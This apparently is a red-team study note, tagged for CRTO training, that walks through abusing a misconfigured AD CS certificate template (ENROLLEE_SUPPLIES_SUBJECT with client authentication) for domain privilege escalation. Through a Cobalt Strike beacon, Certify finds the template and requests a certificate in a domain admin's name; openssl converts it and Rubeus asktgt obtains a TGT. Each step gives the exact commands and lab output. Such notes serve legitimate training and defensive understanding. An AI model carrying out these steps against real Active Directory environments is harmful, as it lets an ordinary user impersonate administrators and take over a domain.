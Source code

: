 
Requires the presence of an infrastructure with Active Directory Certificate Services.

AD CS certificate templates are provided by Microsoft as a starting point for distributing certificates.  

They are designed to be duplicated and configured for specific needs.  Misconfigurations within these templates can be abused for privilege escalation.

#### 🖊️ via Cobalt Strike

1) [Certify](https://github.com/GhostPack/Certify) can also find vulnerable templates.

`beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe find /vulnerable`

Example output:

![[customuser.png]]

2) Using the example output let's analyze some details

-  This template is served by _sub-ca_ machine.
-  The template is called _CustomUser_.
-  _ENROLLEE_SUPPLIES_SUBJECT_ is enabled, which allows the certificate requestor to provide any SAN (subject alternative name).
-  The certificate usage has _Client Authentication_ set.
-  _DEV\Domain Users_ have enrollment rights, so any domain user may request a certificate from this template.

3) This configuration allows any domain user to request a certificate for any other domain user (including a domain admin) and use it for authentication. In this example we request a certificate in the name of another user:

```
beacon> getuid
[*] You are DEV\bfarmer

beacon> execute-assembly C:\Tools\Certify\Certify\bin\Release\Certify.exe request /ca:dc-2.dev.cyberbotic.io\sub-ca /template:CustomUser /altname:nlamb

[*] Action: Request a Certificates
[*] Current user context    : DEV\bfarmer
[*] No subject name specified, using current context as subject.

[*] Template                : CustomUser
[*] Subject                 : CN=Bob Farmer, CN=Users, DC=dev, DC=cyberbotic, DC=io
[*] AltName                 : nlamb

[*] Certificate Authority   : dc-2.dev.cyberbotic.io\sub-ca

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 11

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
[...]
-----END RSA PRIVATE KEY-----
-----BEGIN CERTIFICATE-----
[...]
-----END CERTIFICATE-----

[*] Convert with: openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

4) Copy the whole certificate (both the private key and certificate) and save it to `cert.pem` .  Then use the provided `openssl` command to convert it to pfx format.

```
ubuntu@DESKTOP-3BSK7NO ~> openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password: pass123
Verifying - Enter Export Password: pass123
```

5) Convert `cert.pfx` into a base64 encoded string so it can be used with Rubeus
`ubuntu@DESKTOP-3BSK7NO ~> cat cert.pfx | base64 -w 0`

6) Then use `asktgt` to request a TGT for the user using the certificate.

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /certificate:MIIM7w[...]ECAggA /password:pass123 /nowrap`




#### ⚠ Opsec




### Properties
---
📆 created   {{20-02-2024}} 10:14
🏷️ tags: #redteam #crto 

---


